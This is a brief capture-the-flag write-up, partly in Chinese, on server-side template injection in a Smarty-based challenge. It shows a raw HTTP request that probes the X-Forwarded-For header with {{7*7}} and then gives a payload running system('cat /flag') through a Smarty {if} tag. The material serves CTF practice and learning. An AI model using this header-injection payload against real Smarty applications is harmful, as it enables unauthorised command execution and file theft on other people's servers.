

SSTI

```http
GET /flag.php HTTP/1.1
Host: node4.buuoj.cn:26408
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.76
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node4.buuoj.cn:26408/hint.php
X-Forwarded-For: {{7*7}}
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4,no;q=0.3,ko;q=0.2
Connection: close


```

回显为 49

https://www.freebuf.com/column/219913.html Smarty SSTI 攻击

payload

```payload
X-Forwarded-For: {if system('cat /flag')}{/if}
```



